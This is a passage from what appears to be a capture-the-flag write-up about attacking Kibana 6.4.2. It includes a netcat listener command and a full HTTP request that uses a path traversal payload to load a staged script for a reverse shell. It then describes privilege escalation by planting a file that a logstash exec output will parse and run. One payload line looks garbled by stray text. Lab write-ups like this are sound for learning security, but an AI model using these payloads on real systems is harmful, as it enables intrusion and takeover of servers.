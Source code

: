 Then we can implement by burp, remember to set up nc listener `nc -lvnp 1234`

```
GET /api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/server.jssudo -l HTTP/1.1
Host: localhost:5601
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5601/app/kibana
content-type: application/json
kbn-version: 6.4.2
origin: http://localhost:5601
Connection: close
```

Wait for a while, then we are kibana.

[![erlWZT.png](https://s2.ax1x.com/2019/08/03/erlWZT.png)](https://imgchr.com/i/erlWZT)

But we are still not root! Don't be upset. Let's move on. If we look at the logstash in the machine carefully, we will find something interesting. We find the user group `kibana` has write permission of `conf.d` of logstash.

```
ls -lah
total 52K
drwxr-xr-x.  3 root   root    183 jun 18 22:15 .
drwxr-xr-x. 83 root   root   8,0K jun 24 05:44 ..
drwxrwxr-x.  2 root   kibana   62 jun 24 08:12 conf.d
-rw-r--r--.  1 root   kibana 1,9K nov 28  2018 jvm.options
-rw-r--r--.  1 root   kibana 4,4K sep 26  2018 log4j2.properties
-rw-r--r--.  1 root   kibana  342 sep 26  2018 logstash-sample.conf
-rw-r--r--.  1 root   kibana 8,0K ene 23  2019 logstash.yml
-rw-r--r--.  1 root   kibana 8,0K sep 26  2018 logstash.yml.rpmnew
-rw-r--r--.  1 root   kibana  285 sep 26  2018 pipelines.yml
-rw-------.  1 kibana kibana 1,7K dic 10  2018 startup.option
```

`conf.d` is the config directory of logstash consists of three files in general. Take a deep look into the directory, you'll find an interesting thing. There is a command executes in `output.conf`. If you have basic knowledge of logstash, you should know the function of the three files. `input.conf` is used to config the data source. `filter.conf` is used to process the data, which is usually combined with grok. `output.conf` is used to output the processed data. We can find there is an `exec` in the `output.conf`.

So the exploit is very clear. Create a file in `/opt/kibana/` whose name begins with `logstah_`. And make sure the content in the file can be parsed by grok correctly. Then the command can be executed successfully. The most important part is how to create the content to be parsed to correct `comando`. So you should know how to use grok. Grok is utilized to recognize specific fields by the regular expression. [Grok Debugger] is a useful tool to test grok online.

![eyPIxg.png](https://s2.ax1x.com/2019/08/04/eyPIxg.png)
